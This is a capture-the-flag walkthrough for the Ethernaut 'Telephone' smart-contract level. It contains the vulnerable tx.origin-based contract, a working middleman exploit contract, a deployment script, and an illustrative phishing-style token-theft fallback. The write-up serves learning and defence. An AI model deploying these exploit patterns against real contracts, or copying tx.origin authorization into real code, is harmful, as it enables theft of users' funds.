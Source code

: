 # Level 4 - Telephone ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/4" %}

### Level Setup

{% hint style="info" %}
Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Telephone.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
{% endcode %}

### Exploit

The contract is vulnerable because the `msg.sender` is the address that sent the transaction to interact with the contract, but this is only the final address if the transaction involved multiple contracts.

1. Create a middleman contract so that `x.origin != msg.sender`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-4

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-4

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level4.sol" %}

{% code title="src/Level4.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

// ================================================================
// │                      LEVEL 4 - TELEPHONE                     │
// ================================================================
contract TelephoneMiddleman {
    function run(address _targetContractAddress) public {
        ITelephone(_targetContractAddress).changeOwner(msg.sender);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level4.s.sol" %}

{% code title="script/Level4.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {TelephoneMiddleman} from "../src/Level4.sol";

// ================================================================
// │                      LEVEL 4 - TELEPHONE                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        TelephoneMiddleman telephoneMiddleman = new TelephoneMiddleman();
        telephoneMiddleman.run(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
{% endhint %}

### Notes

* [Difference between `tx.origin` and `msg.sender`](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)
* In a simple call chain `A->B->C->D` inside `D` `msg.sender` will be `C` and `tx.origin` will be `A`.

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_4_Telephone.md" %}

